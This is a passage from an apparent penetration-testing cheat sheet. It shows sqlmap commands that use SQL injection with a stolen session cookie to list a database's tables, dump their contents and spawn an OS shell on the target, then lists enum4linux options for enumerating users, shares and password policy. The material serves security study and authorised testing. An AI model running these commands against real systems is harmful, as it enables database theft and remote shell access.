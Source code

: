 ```sh
Assuming the previous comand retrieved multiple DBs and we want to use sqlmap to retrieve the tables in one database, we can use the below command:

sqlmap -u "http://www.website.com/viewprofile.aspx?id=1" --cookie="cookie value obtained via document.cookie" -D databse_name --tables

# -D specifies the DBMS database to enumerate 
# --tables enumerates DBMS database tables.

Once the tables found and we want to retrieve/dump the content of a specific table, use command:

sqlmap -u "http://www.website.com/viewprofile.aspx?id=1" --cookie="cookie value obtained via document.cookie" -D databse_name -T table_name --dump


#To spawn an interractive shell:
sqlmap -u "http://www.website.com/viewprofile.aspx?id=1" --cookie="cookie value obtained via document.cookie" --os-shell
```





--------------

## Enumeration/PrivEsc

------------


#### Enum4Linux

```sh

Usage: enum4linux [options] $IP

Options can be:
    -U        get userlist
    -M        get machine list*
    -S        get sharelist
    -P        get password policy information
    -G        get group and member list
    -d        be detailed, applies to -U and -S
```



#### PowerUp


--------------
## Cracking
----
